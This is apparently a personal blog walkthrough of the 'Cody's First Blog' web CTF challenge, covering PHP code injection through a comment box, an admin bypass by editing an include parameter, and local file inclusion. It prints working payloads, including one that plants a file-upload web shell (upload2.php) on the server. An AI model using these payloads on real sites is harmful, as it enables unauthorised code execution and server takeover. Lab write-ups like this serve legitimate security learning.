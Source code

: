 CTF Walkthrough: Cody's First Blog (Web, Moderate)

 Introduction
Hey everyone! I'm Divyanshu Kumar, a cybersecurity enthusiast. In this post, I’ll walk you through my experience solving the Cody's First Blog CTF challenge. This is part of my series where I explore cybersecurity concepts through CTF (Capture The Flag) walkthroughs.

This challenge required a mix of web exploitation techniques like PHP payload execution, source code analysis, and local file inclusion (LFI). Let's break it down step by step!

---

 FLAG 0: PHP Code Injection via Comment Box

 Finding the Vulnerability
Initially, I attempted several different approaches without success. After analyzing the hints, I realized that the comment box was the key.

I started testing Cross-Site Scripting (XSS) payloads like:
```html
<img src=x onerror=alert("hacked")>
```
This confirmed that my comment was being stored and awaiting approval, which hinted at admin involvement.

Since the platform was PHP-based, I decided to try injecting PHP code. I submitted a comment containing PHP code, and once it was approved, my code executed, revealing the first flag!

```php
<?php echo 'FLAG0'; ?>
```

 Trick Disclaimer
I also used Burp Suite and utilized Intruder (Sniper attack) with multiple PHP payloads to obtain the flag without admin approval.

 Payload Used:
```php
$file = fopen ("upload2.php", "w"); echo fwrite($file, '<html><form action="upload2.php" method="post" enctype="multipart/form-data">Select image to upload; <input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></html><?php if( isset ($_POST["submit"])) { $file_name = $_FILES["fileToUpload"]["name"]; $file_tmp_name = $_FILES["fileToUpload"]["tmp_name"]; if (move_uploaded_file($file_tmp_name, "./" . $file_name)) { echo "ok"; } } ?>'); fclose($file);
```
Using this technique, I successfully bypassed admin approval and retrieved the flag directly.

---

 FLAG 1: Admin Authentication Bypass

 Finding the Vulnerability
To progress, I examined the source code of the index page and discovered a hidden comment:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```
This suggested the presence of an admin authentication page.

 Exploitation
Navigating to `?page=admin.auth.inc`, I reached an admin login page. I attempted various default credentials without success. Using GoBuster, I enumerated directories and found:
```
/.hta (403)
/.htaccess (403)
/.htpasswd (403)
/index.php (200)
/php.ini (200)
/posts (301)
/server-status (403)
```

Although accessing `php.ini` was possible, it didn’t reveal anything useful. At this point, I noticed the admin page URL structure:
```
?page=admin.auth.inc
```
Since authentication is usually enforced here, I tested removing 'auth' from the filename:
```
?page=admin.inc
```
And just like that—I was logged in as admin!

Now, I had the power to approve comments, which meant I could approve my previous PHP code injection and use it in the next step.

---

 FLAG 2: Executing Approved PHP Code via LFI

 Finding the Vulnerability
At this stage, we knew:
✅ We could submit PHP code as a comment.
✅ We could approve it as an admin.
✅ The server had local file inclusion (LFI) enabled.

Since the server couldn’t communicate externally, I had to execute my code locally.

 Exploitation
By visiting:
```
?page=http://localhost/index
```
I observed that previously approved PHP comments were executed. This meant I could inject a command to read `index.php` and extract the final flag.

 Proof of Concept
I submitted a comment containing:
```php
<?php echo file_get_contents('index.php'); ?>
```
After approving the comment and navigating to `localhost/index`, I checked the developer tools (F12) and saw that my PHP code had executed successfully, revealing FLAG2.

---

 Conclusion
This challenge reinforced key web exploitation concepts:
✅ PHP code injection via comment boxes.
✅ Authentication bypass by manipulating URL structures.
✅ Executing arbitrary code through LFI.

CTF challenges like this are a great way to develop real-world security skills. Stay tuned for more walkthroughs, and let me know if you have any insights or questions!

Happy hacking! 🔥

